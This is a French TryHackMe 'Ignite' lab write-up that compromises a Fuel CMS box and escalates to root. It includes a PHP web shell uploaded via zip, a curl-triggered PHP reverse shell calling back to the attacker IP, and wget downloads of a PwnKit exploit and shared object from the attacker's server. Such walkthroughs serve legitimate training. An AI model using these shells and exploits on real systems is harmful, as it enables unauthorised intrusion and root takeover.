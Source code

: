 # TryHackMe – Ignite

**Objectif** : Le but est d'exploiter une vulnérabilité d'upload dans Fuel CMS pour déposer un web‑shell, obtenir un reverse shell, puis tirer parti de la faille PwnKit (CVE‑2021‑4034) afin de devenir root et récupérer les flags user et root.

---

## 1. Cible et setup

| Variable               | Valeur           |
| ---------------------- | ---------------- |
| IP cible               | **10.10.242.71** |
| IP attaquant (`LHOST`) | **10.21.208.96** |
| Port listener          | **4444**         |

**Outils utilisés** : `nmap` (scan), `gobuster` (bruteforce répertoires), navigateur web, `zip` (préparer l’archive du shell), `curl` (invoquer l’URL), `nc` (listener reverse‑shell), `gcc` (compiler l’exploit PwnKit).

---

## 2. Recon

```bash
nmap -T4 -Pn -n -sC -sV -p- 10.10.242.71 -oA nmap/full
```

> Scan de tous les ports pour ne pas manquer un éventuel service caché ; `-sC -sV` lance les scripts par défaut et identifie les versions.

Résultat : seul **80/tcp** (Apache) ressort ouvert.

```bash
gobuster dir -u http://10.10.242.71/ -w common.txt -x php,html,txt,zip -t 50
```

> Gobuster détecte rapidement les chemins et bannières courantes, (j'ai utilisé [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt)); il confirme la présence de plusieurs chemins, ce qui nous intéresse ici est la page `/fuel` (probablement l'interface admin).

Interface d’admin :

```
http://10.10.242.71/fuel
```

> Les creds par défaut, `admin:admin`, nous sont directement donnés sur la page d'accueil; ils fonctionnent et donnent accès complet.

---

## 3. Upload d’un web‑shell

1. Créer `shell.php` :

```php
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);} ?>
```

>  Ici on a un code minimal qui exécute n’importe quelle commande passée via `cmd`.

2. Compresser :

```bash
zip shell.zip shell.php
```

> *Pourquoi ?* Le module d’upload n’accepte pas le `.php`, mais autorise les `.zip` avec décompression côté serveur.

3. Dans Fuel CMS → **Assets** → **Upload** ; cocher « Unzip zip files » ; envoyer `shell.zip`.

> La décompression place `shell.php` dans un répertoire public (`/assets/pdf/`).

4. Shell disponible :

```
http://10.10.242.71/assets/pdf/shell.php
```

5. Test simple :

```bash
curl "http://10.10.242.71/assets/pdf/shell.php?cmd=whoami"
```

> *Réponse :* `www-data`, validant l’exécution de commandes.

---

## 4. Reverse‑shell interactif

Démarrer l’écoute :

```bash
nc -lvnp 4444
```

> On prépare la machine d’attaque à recevoir la connexion sortante.

Déclencher depuis le web‑shell :

```bash
curl "http://10.10.242.71/assets/pdf/shell.php?cmd=php+-r+'$s=fsockopen("10.21.208.96",4444);exec("/bin/sh -i <&4 >&4 2>&4");'"
```

> `fsockopen` fonctionne même lorsque certaines fonctions sont restreintes ; on obtient un /bin/sh via le socket.

Améliorer le TTY :

```bash
python3 -c 'import pty,os,pty; os.setsid(); pty.spawn("/bin/bash")'
export TERM=xterm
```

> Cela donne un shell interactif plus confortable (flèches, ctrl‑c).

---

## 5. Flag utilisateur

```bash
cat /home/www-data/flag.txt
```

> Le flag est traditionnellement placé dans le home de l’utilisateur, courant sur les rooms THM.

---

## 6. Élévation root (PwnKit)

Après avoir check des possibles crons root, j'ai lister les fichiers SUID :

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

> On cherche les binaires avec le bit SUID ; `pkexec` est vulnérable à **CVE‑2021‑4034**.

Compiler l’exploit côté attaquant :

```bash
gcc exploit.c -o pwnkit         # PoC Qualys
```

J'ai compiler la charge utile partagée puis hebergé nos 2 fichiers sur un serveur http pour pouvoir les télécharger sur notre cible :

```bash
gcc -shared -fPIC evil.c -o evil.so
python3 -m http.server 80
```

> *Pourquoi ?* `exploit.c` déclenche la faille, `evil.so` contient la commande qui sera exécutée en root.

Transférer et lancer sur la cible :

```bash
cd /tmp
wget http://10.21.208.96/pwnkit -O pwnkit
wget http://10.21.208.96/evil.so -O evil.so
chmod +x pwnkit
./pwnkit
```

Vérification :

```bash
whoami   # root
cat /root/root.txt
```

---

## 7. Terminé

Flags user et root récupérés, room validée.

---

**Auteur** : Saad Idrissi
